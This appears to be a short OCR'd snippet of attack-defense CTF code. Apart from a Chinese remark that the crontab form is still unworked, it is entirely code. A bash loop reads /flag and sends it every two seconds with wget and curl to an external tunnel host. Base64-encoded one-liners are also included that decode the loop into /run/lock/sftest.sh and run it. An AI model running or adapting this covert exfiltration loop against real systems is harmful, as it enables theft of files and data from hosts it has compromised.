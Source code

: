 暂时未研究出crontab写法
```sh
#!/bin/bash  
step=2
while true;do
    f=`cat /flag`
    url="http://tjey3i.natappfree.cc?token=serfend&flag=$f"
    wget $url
    curl $url
    sleep $step
done
exit 0
```
```sh
/bin/echo 'IyEvYmluL2Jhc2ggIApzdGVwPTIKd2hpbGUgdHJ1ZTtkbwogICAgZj1gY2F0IC9mbGFnYAogICAgdXJsPSJodHRwOi8vcnRjZXRoLm5hdGFwcGZyZWUuY2M/dG9rZW49c2VyZmVuZCZmbGFnPSRmIgogICAgd2dldCAkdXJsCiAgICBjdXJsICR1cmwKICAgIHNsZWVwICRzdGVwCmRvbmUKZXhpdCAw' | /usr/bin/base64 -d > /run/lock/sftest.sh && /bin/sh /run/lock/sftest.sh 
```

/bin/echo "IyEvYmluL2Jhc2ggIApzdGVwPTIKd2hpbGUgdHJ1ZTtkbwogICAgZj0yMTMxMwogICAgdXJsPSJodHRwOi8vdGpleTNpLm5hdGFwcGZyZWUuY2M/dG9rZW49c2VyZmVuZCZmbGFnPSRmIgogICAgd2dldCAkdXJsCiAgICBjdXJsICR1cmwKICAgIHNsZWVwICRzdGVwCmRvbmUKZXhpdCAw" | /usr/bin/base64 -d > /run/lock/sftest.sh && /bin/sh /run/lock/sftest.sh 